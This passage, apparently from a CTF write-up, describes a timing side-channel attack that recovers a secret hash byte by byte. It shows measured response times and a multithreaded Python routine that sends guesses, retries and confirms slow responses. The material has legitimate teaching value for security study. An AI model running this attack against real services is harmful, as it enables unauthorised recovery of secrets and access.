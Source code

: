 I got:

```
{ ...
    "ef": 0.6429750000000001,
    "f0": 0.6428805,
    "f1": 0.6429075,
    "f2": 0.6429579999999999,
    "f3": 0.6426725,
    "f4": 0.6429405000000001,
    "f5": 0.6432635,
    "f6": 0.6427134999999999,
    "f7": 0.6425565,
    "f8": 0.6429004999999999,
    "f9": 1.1436354999999998,
    "fa": 0.6428285,
    "fb": 0.642867,
    "fc": 0.6430150000000001,
    "fd": 0.642695,
    "fe": 0.643376,
}
```
Note that 'f9' took 1.14 seconds, which is 0.5s more than the others. Now I should test the next two chars prefixing `f9` in the hash and so on until I got the complete hash.

#### Multithreading

Doing this timing attack in a single thread would take hours. So we need to do it using multithreading [file]. I found out that the most reliable results from my VPS network were using a maximum of 16 threads. The general idea was to build a queue with hex range 0x00 to 0xff and make each thread do a request checking the elapsed time. Being greater than 0.5s from the previous `base_value` time means that we found another "byte".

Let's just see the main function that each thread will perform:

```python
def process_data(threadName, q): # Thread main function
    global found
    while not exitFlag:   # A flag to stop all threads
        queueLock.acquire()  # Acquire Queue
        if not workQueue.empty(): 
            payload = q.get()
            queueLock.release() # Release Queue
            time_elapsed = send(payload) # Send the hash and get time_elapsed
            if len(payload) == 64 and time_elapsed == 999: # Last two chars case
                found = payload
                return
				
            while time_elapsed - base_time_value > 0.8: # Possibly a network issue
                time_elapsed = send(payload) # Try again
				
            if (time_elapsed - base_time_value) > 0.4: # Maybe we have found
                time.sleep((len(found)/2)*0.6+1)   # Waiting to confirm
				
                again = send(payload)   # Confirming
				
                if (again - base_time_value) > 0.45:
                    found = payload[:len(found)+2] # Found!
                    print('Found: ' + payload)
        else:
            queueLock.release()
            time.sleep(2)
     
```
